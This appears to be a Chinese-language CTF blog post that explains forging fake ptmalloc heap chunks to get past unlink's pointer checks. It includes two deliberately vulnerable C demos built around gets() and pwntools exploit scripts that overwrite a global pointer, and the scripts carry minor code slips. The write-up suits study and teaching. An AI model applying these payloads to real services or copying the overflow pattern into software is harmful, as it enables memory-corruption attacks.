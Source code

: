 ```yaml
---
layout:     post
title:      "ptmalloc堆块伪造"
subtitle:   "基于unlink的check机制"
date:       2018-07-11 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - Linux
 
---
```



##0x00原理
1.ptmalloc的相邻空块合并原则。

2.堆chunk本身的结构机制。

##0x01详解
堆chunk判断一个块是否为空仅仅依赖于相邻后块的**prev_size**和**最低flag位**。
如果在堆上构造合理的堆块结构，那么堆管理机制就会误以为我们的伪造的堆块是真正的空堆块。
当释放掉相邻的后块时（这个块是真的），就会触发空块合并。也就达成了堆块伪造的目的。

##0x02要求

有check的堆溢出利用。

* 有两个相邻的堆块
* 第一个堆块可溢出第二个
* 释放第二个堆，即可触发。

或者

* 有一个已分配的堆
* 有一个指向堆上的可控指针
* free参数可控

这种情况下，是在分配的一大块堆中强行构造出两块chunk。然后利用那个指向堆上的可控指针来实现free触发漏洞。
这其实是一种double free的利用方式，因为如果你分配了两块堆，然后把这两块堆都释放之后，这些内存会合并到top chunk中。当再次分配堆的时候，还是使用这些内存地址。

那么如果我们进行以下操作：



	1.分配两个堆
	2.释放掉这两个堆
	3.分配一个可以包含住前面两个堆的大堆块
	4.写入这个大堆块构造两个伪chunk
	5.通过第2步中释放两个堆

这样对于初始的两个堆来说，就像是double free了，当然本质还是堆块伪造。
##0x03用的效果
如果成功的使用了伪造堆，那么达到的效果是什么呢？首先，是不可能像unlink利用一样任意地址写了。
因为对于目前的ptmalloc来说，有如下check：
current->fd->bd!=current;
current->bd->fd!=current;
为了过掉这个检验我们会用一个指向堆块的全局指针的地址的一个偏移作为伪chunk的fd。
fd=ptr-12;
bd=ptr-8;
然后在断链的过程中，就会把**ptr**的值改成**&ptr-12**,感觉很鸡肋是吧？
毕竟费这么大力气只是把一个全局变量的值给改成了他的地址－0xC，但是这个东西确实是这么去利用的。
在CTF中会跟其他的漏洞或功能结合去使用。


##0x04演示
为了具体的说明问题，这里写了两个demo演示效果。
###Demo1


	void *global[80];
	
	void *global[80];
	
	int main(void)
	{
	    void *p1,*p2;
	    p1=malloc(200);
	    p2=malloc(200);
	    global[40]=p1;
	    printf("before exploit:%x\n",global[40]);
	    puts("read");//for debug
	    gets(p1);//overflow
	    free(p2);
	    printf("after exploit:%x\n",global[40]);
	    return 0;
	}


这是对应于第一种堆溢出覆盖下一块堆的情况的，如果使用下面的exp就会发现global中malloc返回的地址已经变成了 global[40]本身的地址－0xC

	from pwn import*
	io=elf('./demo1')
	io.recvuntil('read')
	sc=p32(0x0)+p32(0xc9)+p32(0x804A100-0xc)+p32(0x0804A100-0x8)+'a'*(200-16)+p32(0xc8)+p32(0xd0)
	io.sendline(sc)
	io.read()


###Demo2

	int *global[40];
	int main(void)
	{
	  void *p1,*p2,*p3;
	  p1=malloc(200);
	  p2=malloc(200);
	  global[20]=p1;
	  free(p1);
	  free(p2);
	  p3=malloc(500);
	  puts("get");//for debug
	  gets(p3);
	  free(p2);
	  return;
	}

这个Demo展示的是double free。可以看到对于p2指针来说确实是释放了两次。


	from pwn import*
	io=elf('./demo2')
	io.recvuntil('get')
	sc=p32(0x0)+p32(201)+p32(0x804a0b0-0xC)+p32(0x804a0b0-0x8)+'a'*(200-16)+p32(200)+p32(0x128)
	io.sendline(sc)
	io.read()

##0x05总结
这个exp就可以实现利用，感觉这个exp的伪堆块构造要比上面Demo更复杂一些。这个exp我搞了好久，因为不知道为什么一直会触发free的check导致程序崩溃。后来查了一些资料终于明白了，必须要保证你分配的堆与你在其中构造的两个堆块的大小完全一致。
比方说我这里是malloc(500)，调试一下发现分配了504（鬼知道为什么），那么就是504-8-200=0x128，如果不跟分配的堆块边境符合的话就会触发check从而crash掉。




